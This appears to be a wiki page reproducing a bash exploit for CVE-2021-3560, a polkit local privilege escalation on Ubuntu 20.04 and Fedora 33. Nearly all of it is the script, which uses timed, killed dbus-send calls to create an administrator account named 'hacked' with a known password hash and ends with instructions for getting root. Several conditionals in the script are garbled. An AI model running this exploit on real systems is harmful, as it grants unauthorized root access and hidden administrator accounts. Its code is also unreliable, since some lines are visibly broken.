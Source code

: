 <languages /> <translate>

影響版本
--------

</translate>

    Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)

EXP
---

    # Exploit Title: Polkit 0.105-26 0.117-2 - Local Privilege Escalation
    # Date: 06/11/2021
    # Exploit Author: J Smith (CadmusofThebes)
    # Vendor Homepage: https://www.freedesktop.org/
    # Software Link: https://www.freedesktop.org/software/polkit/docs/latest/polkitd.8.html
    # Version: polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)
    # Tested on: Ubuntu 20.04, Fedora 33
    # CVE: CVE-2021-3560
    # Source: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

    #!/bin/bash

    # Set the name and display name
    userName="hacked"
    realName="hacked"

    # Set the account as an administrator
    accountType=1

    # Set the password hash for 'password' and password hint
    password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
    passHint="password"

    # Check Polkit version
    polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
    if [["$(apt_list_--installed_2>/dev/null|grep polkit]]; then
        echo "[*] Vulnerable version of polkit found"
    else
        echo "[!] WARNING: Version of polkit might not vulnerable"
    fi

    # Validate user is running in SSH instead of desktop terminal
    if [[-z_$SSH_CLIENT|]]; then
        echo "[!] WARNING: SSH into localhost first before running this script in order to avoid authentication prompts"
        exit
    fi

    # Test the dbus-send timing to load into exploit
    echo "[*] Determining dbus-send timing"
    realTime=$( TIMEFORMAT="%R"; { time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType ; } 2>&1 | cut -d " " -f6 )
    halfTime=$(echo "scale=3;$realTime/2" | bc)

    # Check for user first in case previous run of script failed on password set
    if id "$userName" &>/dev/null; then
        userid=$(id -u $userName)
        echo "[*] New user $userName already exists with uid of $userid"
    else
        userid=""
        echo "[*] Attempting to create account"
        while [[$userid_==_""|$userid == ""]]
        do
            dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
            if id "$userName" &>/dev/null; then
            userid=$(id -u $userName)
                echo "[*] New user $userName created with uid of $userid"
            fi
        done
    fi

    # Add the password to /etc/shadow
    echo "[*] Adding password to /etc/shadow"
    x=0
    while [ $x -lt 100 ]
    do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        x=$(($x + 1))
    done

    echo "[*] Exploit complete! If the password does not work, run the exploit again"
    echo ""
    echo "[*] Run 'su - $userName', followed by 'sudo su' to gain root access"